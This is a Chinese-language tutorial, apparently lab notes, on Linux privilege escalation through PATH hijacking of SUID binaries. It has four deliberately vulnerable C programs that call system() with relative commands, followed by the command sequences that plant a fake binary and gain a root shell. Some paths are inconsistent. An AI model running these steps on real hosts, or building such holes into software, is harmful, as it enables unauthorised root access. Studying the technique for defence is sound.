 ##### 第一种
	假设存在一个脚本代码为
```c
	#include<unistd.h>
	void main()
	{
	setuid(0);
	setgid(0);
	system("ps");
	}
```
	
	编译
	>gcc demo.c -o shell
	>chmod u+s shell
	执行./shell  回显ps命令
	提权
	find / -perm -u=s -type f 2>/dev/null
	存在脚本/home/name/script/shell
	>cd /tmp
	>echo "/bin/bash" > ps
	>chmod 777 ps
	>echo $PATH
	>export PATH=/tmp:$PATH
	>cd /home/raj/script
	>./shell
	>whoami
	或使用copy命令
	>cd /home/raj/script/
	>cp /bin/sh /tmp/ps
	>echo $PATH
	>export PATH=/tmp:$PATH
	>./shell
	>whoami
	或使用ln命令
	>ln -s /bin/sh ps
	>export PATH=.:$PATH
	>./shell
	>id
##### 第二种
	假设存在一个脚本代码为
```c
	#include<unistd.h>
	void main()
	{
	setuid(0);
	setgid(0);
	system("id");
	}
```

	编译
	>gcc test.c -o shell2
	>chmod u+s shell2
	提权
	find / -perm -u=s -type f 2>/dev/null
	存在脚本/home/name/script/shell2
	>cd /tmp
	>echo "/bin/bash" > id
	>chmod 777 id
	>echo $PATH
	>export PATH=/tmp:$PATH
	>cd /home/raj/script
	>./shell2
	>whoami
##### 第三种
	假设存在一个脚本代码为
```c
	#include<unistd.h>
	void main()
	{
	setuid(0);
	setgid(0);
	system("cat /etc/passwd");
	}
```

	编译后提权
	find / -perm -u=s -type f 2>/dev/null
	存在脚本/home/name/script/shell3
	>cd /tmp
	>vi cat
	内容为/bin/bash
	>chmod 777 cat
	>ls -al cat
	>echo $PATH
	>export PATH=/tmp:$PATH
	>cd /home/raj/script
	>./shell3
	>whoami
##### 第四种
	假设存在一个脚本代码为
```c
	#include<unistd.h>
	void main()
	{
	setuid(0);
	setgid(0);
	system("cat /home/raj/msg.txt");
	}
```
	
	编译后提权
	find / -perm -u=s -type f 2>/dev/null
	存在脚本/home/name/script/shell4
	>cd /tmp
	>vi cat
	>chmod 777 cat
	>echo $PATH
	>export PATH=/tmp:$PATH
	>cd /home/raj/script
	>./shell4
	>whoami